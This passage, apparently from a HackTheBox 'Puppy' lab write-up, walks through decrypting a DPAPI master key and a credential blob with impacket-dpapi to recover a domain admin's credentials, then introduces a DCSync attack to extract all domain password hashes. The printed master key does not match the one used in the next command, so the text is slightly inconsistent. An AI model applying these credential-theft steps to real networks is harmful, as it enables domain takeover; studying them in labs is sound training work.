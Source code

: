 ### Offline DPAPI Credential Decryption

Now that we have the necessary files, we'll decrypt them using Impacket's DPAPI tool:

```shell
┌───(root㉿kali)-[/home/kali/HTB/Puppy]
└─$ impacket-dpapi masterkey -file 'masterkey_blob' -password '[REDACTED]' -sid 'S-1-5-21-1487982659-1829050783-2281216199-1107'
```
The decryption provides a master key:

- Decrypted key: `0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba9`

Now let's use this key to decrypt the credential blob:
```shell
┌───(root㉿kali)-[/home/kali/HTB/Puppy]
└─$ impacket-dpapi credential -file 'credential_blob' -key '0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84'
```

![ad-module](/assets/img/favicons/puppy/21.png)
Great! We've discovered another set of credentials:

- Username: `steph.cooper_adm`
- Password: `[REDACTED]`

### Final Privilege Escalation: DCSync Attack

Analysis of **BloodHound** reveals that `steph.cooper_adm` has `DCSync` privileges. With `DCSync` rights, we can extract password hashes for any domain user, including `Administrator`!
We can do that with the help of `NetExec`:
![ad-module](/assets/img/favicons/puppy/22.2.png)
